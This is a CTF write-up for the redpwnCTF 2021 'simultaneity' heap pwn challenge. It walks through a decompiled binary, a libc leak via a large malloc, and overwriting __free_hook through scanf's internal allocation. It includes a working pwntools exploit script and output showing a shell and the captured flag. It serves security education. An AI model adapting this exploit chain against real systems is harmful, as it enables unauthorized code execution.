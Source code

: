 # redpwnCTF 2021

## simultaneity

> asphyxia 
> 
> Just an instant remains before the world comes to an end...
> 
> `nc mc.ax 31547`
>
> [libc.so.6](libc.so.6) [ld-linux-x86-64.so.2](ld-linux-x86-64.so.2) [simultaneity](simultaneity)


Tags: _pwn_ _x86-64_ _heap_ _scanf_


## Summary

Fun challenge where `scanf` does double duty writing out our exploit, but also triggering it.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place sans canary, perhaps a BOF challenge.


### Decompile with Ghidra

The program will allocate a user defined chuck of RAM, request an offset, and then write 8 bytes to that offset.

```c
void main(void)
{
  long in_FS_OFFSET;
  size_t local_20;
  void *local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("how big?");
  __isoc99_scanf(&%ld,&local_20);
  local_18 = malloc(local_20);
  printf("you are here: %p\n",local_18);
  puts("how far?");
  __isoc99_scanf(&%ld,&local_20);
  puts("what?");
  __isoc99_scanf(&%zu,(void *)((long)local_18 + local_20 * 8));
  _exit(0);
}
```

That `_exit(0)` at the end basically takes care of any potential stack-based buffer overflow (the compiler new this, so no need for the canary).

The `malloc` return isn't being checked for NULL, so using a NULL pointer + the `how far?`; you have an 8-byte _write-what-where_, but where to write?  Need a leak.

`malloc`, with a large size, but not so large to fail and return a NULL pointer, will allocate a chuck that is aligned with base of libc.  This will provide a leak for the `what?` arbitrary 8-byte write.  The natural target is anything ending in `_hook`.

We get one 8-byte write (`what?`) courteous of `scanf`, and that same `scanf` needs to trigger the hook.  With only 8-bytes, _one\_gadget_ is the natural choice.

`scanf` and `printf` will call `malloc/free` with large inputs or output, e.g. with `printf` a `%65536c` format-string will trigger `malloc`, the analog for `scanf` in this challenge is to pad our `what?` with a lot of zeros.  `scanf` will then call `malloc`, process our input, and write out our hook, then call `free`; naturally we'll use `__free_hook`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./simultaneity')

if args.REMOTE:
    p = remote('mc.ax', 31547)
    libc = ELF('./libc.so.6')
    libc.symbols['gadget'] = [0x4484f,0x448a3,0xe5456][1]
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.sendlineafter('big?\n','10000000')
p.recvuntil('here: ')
libc.address = int(p.recvline().strip(),16) + 10002416
log.info('libc.address: ' + hex(libc.address))
log.info('libc.sym.__free_hook: ' + hex(libc.sym.__free_hook))

p.sendlineafter('far?\n',str((libc.sym.__free_hook - libc.address + 10002416) // 8))
p.sendlineafter('what?\n',65536*'0' + str(libc.sym.gadget))
p.interactive()
```

To get the gadgets just run `one_gadget ./libc.so.6` and test each of them.

The `10002416` was just measured in gdb.

The `big?` `10000000` was lifted from another [writeup](https://faraz.faith/2019-10-27-backdoorctf-miscpwn/) xfactor sent to me.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/simultaneity/simultaneity'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mc.ax on port 31547: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/simultaneity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fe75f3dc000
[*] libc.sym.__free_hook: 0x7fe75f5998e8
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
flag{sc4nf_i3_4_h34p_ch4l13ng3_TKRs8b1DRlN1hoLJ}
```
